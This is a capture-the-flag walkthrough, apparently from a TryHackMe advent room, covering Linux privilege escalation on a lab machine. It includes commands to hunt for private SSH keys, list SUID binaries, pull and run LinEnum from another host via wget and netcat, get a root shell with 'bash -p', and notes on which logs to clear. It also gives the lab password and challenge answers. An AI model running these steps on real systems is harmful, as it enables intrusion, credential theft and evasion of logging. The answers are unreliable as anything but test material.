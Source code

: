 ```yaml
---
description: Networking - Priv Esc
---
```


# The Rogue Gnome

## Video

{% embed url="https://www.youtube.com/watch?v=\_SMxZPne5QU" %}

## Resources

[DVWA \(Damn Vulnerable Web App\)](http://www.dvwa.co.uk/)

`whoami` name of the account

`echo $0`  our shell

`python -c 'import pty; pty.spawn("/bin/bash")'`  spawn another shell and make it interactive

We're using `find` to search the volume, by specifying the root \(`/`\) to search for files named "id\_rsa" which is the name for _private_ SSH keys, and then using `2> /dev/null` to only show matches to us.

`find / -name id_rsa 2> /dev/null`

### The "Priv Esc Checklist"

1. Determining the kernel of the machine \(kernel exploitation such as Dirtyc0w\)
2. Locating other services running or applications installed that may be abusable \(SUID & out of date software\)
3. Looking for automated scripts like backup scripts \(exploiting crontabs\)
4. Credentials \(user accounts, application config files..\)
5. Mis-configured file and directory permissions

### Cheatsheets

* [g0tmi1k](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation)
* [payatu](https://payatu.com/guide-linux-privilege-escalation)
* [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#linux---privilege-escalation)

### SUID 101

 [GTFOBins](https://gtfobins.github.io/)

`find / -perm -u=s -type f 2>/dev/null`

### Enumeration Scripts

[LinEnum](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)

### Transfer Scripts

`python3 -m http.server 8080`

`nc -l -p 1337 > LinEnum.sh`    `nc -w -3 10.10.6.64 1337 < LinEnum.sh`

### Covering our Tracks

* "/var/log/auth.log" \(Attempted logins for SSH, changes too or logging in as system users:\)
* "/var/log/syslog" \(System events such as firewall alerts:\)
* "/var/log/&lt;service/" -- /var/log/apache2/access.log"

## Challenge

What type of privilege escalation involves using a user account to execute commands as an administrator?

{% hint style="success" %}
vertical
{% endhint %}

What is the name of the file that contains a list of users who are a part of the `sudo` group?

{% hint style="success" %}
sudoers
{% endhint %}

Use SSH to log in to the vulnerable machine like so: `ssh cmnatic@10.10.6.64`

 Input the following password when prompted: **aoc2020**

![](../.gitbook/assets/image%20%2831%29.png)

{% hint style="success" %}
No answer needed
{% endhint %}

Enumerate the machine for executables that have had the SUID permission set. Look at the output and use a mixture of [GTFObins](https://gtfobins.github.io/) and your researching skills to learn how to exploit this binary.

You may find uploading some of the enumeration scripts that were used during today's task to be useful.

```text
wget 10.14.4.204:8080/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```

![](../.gitbook/assets/image%20%2825%29.png)

![](../.gitbook/assets/image%20%2819%29.png)

> https://gtfobins.github.io/gtfobins/bash/

```text
bash -p
```

![](../.gitbook/assets/image%20%2843%29.png)

{% hint style="success" %}
No answer needed
{% endhint %}

Use this executable to launch a system shell as root.  
  
What are the contents of the file located at **/root/flag.txt**?

```text
cat /root/flag.txt
```

![](../.gitbook/assets/image%20%2874%29.png)

{% hint style="success" %}
thm{2fb10afe933296592}
{% endhint %}

